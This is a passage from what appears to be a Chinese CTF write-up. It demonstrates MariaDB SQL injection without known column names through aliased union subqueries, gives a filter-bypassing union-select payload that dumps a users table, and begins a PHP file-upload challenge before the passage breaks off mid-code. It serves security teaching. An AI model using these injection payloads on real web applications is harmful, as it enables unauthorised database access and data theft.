 ```
```

然后就可以套娃拿数据了,注意``a``这个别名(任意内容)是必须的（新生成的表）

```
MariaDB [test]> select `2` from (select 1,2,3,4,5 union select * from persons)a;          
+-------+
| 2     |
+-------+
| 2     |
| Gates |
| Xill  |
| Eki   |
+-------+
```

或者也可以将数字换成别名 在反引号不可用的情况下

```
MariaDB [test]> select b from (select 1,2 as b,3,4,5 union select * from persons)a;
+-------+
| b     |
+-------+
| 2     |
| Gates |
| Xill  |
| Eki   |
+-------+
```

一番fuzz以后（无列名注入猜测列数）可以构造payload:

```
title=%27/**/union/**/select/**/1,(select/**/group_concat(b)/**/from/**/(select/**/1,2,3/**/as/**/b/**/union/**/select/**/*from/**/users)x),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22/**/'/*&content=123*/&ac=add
```

### 参考资料

不知道列名的情况下注入:

https://www.jianshu.com/p/6eba3370cfab

sys.schema

https://www.cnblogs.com/kunjian/p/11653853.html

bypass information.schema

https://www.anquanke.com/post/id/193512

## 0x15 [SWPU2019] web2

首页拿到源码

```php
<?php
function get_the_flag(){
    // webadmin will remove your upload file every 20 min!!!! 
    $userdir = "upload/tmp_".md5($_SERVER['REMOTE_ADDR']);
    if(!file_exists($userdir)){
    mkdir($userdir);
    }
    if(!empty($_FILES["file"])){
        $tmp_name = $_FILES["file"]["tmp_name"];
        $name = $_FILES["file"]["name"];
        $extension = substr($name, strrpos($name,".")+1);
    if(preg_match("/ph/i",$extension)) die("^_^"); 
        if(mb_strpos(file_get_contents($tmp_name), '<?')!==False) die("^_^");
```